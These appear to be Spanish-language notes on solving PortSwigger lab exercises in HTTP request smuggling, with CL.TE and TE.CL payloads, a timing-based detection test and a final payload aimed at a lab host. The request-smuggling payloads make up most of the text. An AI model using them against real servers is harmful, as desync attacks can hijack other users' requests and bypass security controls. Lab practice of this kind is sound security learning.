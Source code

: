 CL->TE identificado. 

```js
---------------------------------------------
PAYLOAD HECHO PARA LA SOLUCIÓN DEL LAB
---------------------------------------------
Transfer-Encoding: chunked
Content-Length: 66
Connection: keep-alive

17
n06wg=x&1
A
X&sco3d=x
0

GET /404 HTTP/1.1
X-Ignore: X

---------------------------------------------
PAYLOAD HECHO POR PORTSWIGGER PARA SOLUCIÓN DEL LAB
---------------------------------------------
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

* Si no funciona por algun motivo, intentar probar añadiendo las rail sequence `\r\n\r\n`

### LAB: TE->CL Via Differential Responses 

* Que el backend server procese un 404 not found. 
* Pequeño test inicial: y si se demora sabemos muy bien que procesa TE frontend y CL backend. 

```js
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

```js
//PAYLOAD FINAL. 
Content-Length: 4
Transfer-Encoding: chunked

9e
GET /404 HTTP/1.1
Host: 0a5500ff04e4d45bc76f2cc8002f00f6.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0

\r\n\r\n
```
